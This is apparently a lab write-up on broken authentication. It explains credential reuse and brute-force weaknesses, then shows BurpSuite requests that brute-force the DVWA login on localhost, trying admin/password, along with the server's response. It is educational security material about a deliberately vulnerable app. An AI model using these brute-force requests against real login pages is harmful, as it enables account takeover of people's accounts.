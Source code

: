 It is very common for username and password combinations to be reused across multiple platforms which means a breach of a user's account on one platform can potentially be extended to access accounts on others. This was the case in the Sony (2011), Yahoo (2012), and Dropbox (2012) breaches where it was discovered that two-thirds of the compromised user login credentials were reused on other systems.

#### How it Works
User authentication typically requires a matching username and password pair, with more robust systems also implementing some form of multi-factor authentication. Well-developed authentication and session management schemes will implement complex password requirements, limited credential entry attempts, password databases that encrypt or hash entries, user sessions that are encrypted from beginning to end, and other OWASP-defined security policies and mechanisms. Web applications that don't implement limited login attempts are vulnerable to brute force attacks; if the same systems also do not require the use of complex passwords, a brute force attack would become even more effective.

#### Scenario
Using the Damn Vulnerable Web Application (DVWA) as the testing space and BurpSuite as the tool, I demonstrate how a simple brute force attack can exploit a broken authentication vulnerability.

---
##### Raw Request 

```
GET /dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login HTTP1.1
Host: localhost
User-Agent: Mozilla/5.0 (x11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login
Cookie: security=low; PHPSESSID=ai0d0pdqhd8ni12nvjfm08vc4p
Upgrade-Insecure-Requests: 1
```

##### Intruder Request 

```
GET /dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login HTTP1.1
Host: localhost
User-Agent: Mozilla/5.0 (x11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/dvwa/vulnerabilities/brute/?username=test&password=test&Login=Login
Cookie: security=low; PHPSESSID=ai0d0pdqhd8ni12nvjfm08vc4p
Upgrade-Insecure-Requests: 1
```

##### Valid Response(s)

```
HTTP/1.1 200 OK
Date: Wed, 07 Aug 2019 10:45:45 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 4419
Connection: close
Content-Type: text/html;charset=utf-8
```
